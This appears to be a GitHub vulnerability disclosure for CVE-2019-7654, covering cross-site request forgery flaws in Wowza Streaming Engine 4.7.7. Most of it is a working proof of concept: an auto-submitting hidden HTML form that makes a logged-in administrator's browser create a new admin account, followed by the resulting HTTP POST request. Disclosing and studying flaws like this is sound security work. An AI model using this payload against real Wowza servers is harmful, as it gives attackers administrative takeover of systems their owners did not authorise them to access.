

# CVE-2019-7654-CSRF-Wowza
The Wowza Streaming Engine 4.7.7 build 20181108145350 application suffers from multiple CSRF vulnerabilities. For example, an administrator, by following a link, can be tricked into making unwanted changes like adding another admin user.


### Evidence

Admin users:


An authenticated admin user can be tricked into accessing a page containing the following code:

```
<html> 
<body onload='document.frm1.submit();'> 
 <script>history.pushState('', '', '/')</script> 
 <form name="frm1" action="http://192.168.1.180:8088/enginemanager/server/user/edit.htm" method="POST"> 
 <input type="hidden" name="version" value="0" /> 
 <input type="hidden" name="action" value="new" /> 
 <input type="hidden" name="userName" value="wowadmin3" /> 
 <input type="hidden" name="userPassword" value="wowadmin3" /> 
 <input type="hidden" name="userPassword2" value="wowadmin3" /> 
 <input type="hidden" name="accessLevel" value="admin" /> 
 <input type="hidden" name="advUser" value="true" /> 
 <input type="hidden" name="advUser" value="on" /> 
 <input type="hidden" name="ignoreWarnings" value="false" /> 
 <input type="submit" value="Submit request" /> 
 </form> 
 </body> 
</html>
```

He then unknowingly will make a request that adds another application admin user (wowadmin3):

```
POST /enginemanager/server/user/edit.htm HTTP/1.1
Host: 192.168.1.180:8088
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://wowtest.com/
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 150

version=0&action=new&userName=wowadmin3&userPassword=wowadmin3&userPassword2=wowadmin3&accessLevel=admin&advUser=true&_advUser=on&ignoreWarnings=false
```

